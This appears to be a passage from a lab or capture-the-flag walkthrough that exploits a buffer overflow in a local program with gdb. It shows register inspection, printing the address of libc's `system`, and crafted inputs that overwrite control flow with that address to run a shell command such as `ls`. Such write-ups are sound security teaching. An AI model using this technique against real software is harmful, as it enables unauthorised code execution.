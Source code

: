 Execute the program again with modified input, `AAAAAAAACCCC` followed by `BBBBBBBB`, to test for further buffer overflow effects.
```bash
info registers
```
Check the register values again after the new run to see how they have changed with the different input.
```bash
p system
```
<img src="./img/Screenshot 2024-10-13 114618.png"></img>
Print the address of the `system` function in memory, which is crucial for executing shell commands.
```bash
run `echo -e "AAAAAAAA\x30\xd4\xdc\xf7" "BBBBBBBB"
```
Run the program with a crafted input that includes a specific memory address (`\x30\xd4\xdc\xf7`) along with `BBBBBBBB`. This aims to exploit the buffer overflow to control the program's execution flow.
```bash
run `echo -e "AAAAAAAA\x30\xd4\xdc\xf7" "BBBBBBBBC"
```
<img src="./img/Screenshot 2024-10-13 114752.png"></img>
Execute the program with similar crafted input but a different second argument (`"BBBBBBBBC"`), testing different exploit variations.
```bash
run `echo -e "AAAAAAAA\x30\xd4\xdc\xf7" "BBBBBBBBls"
```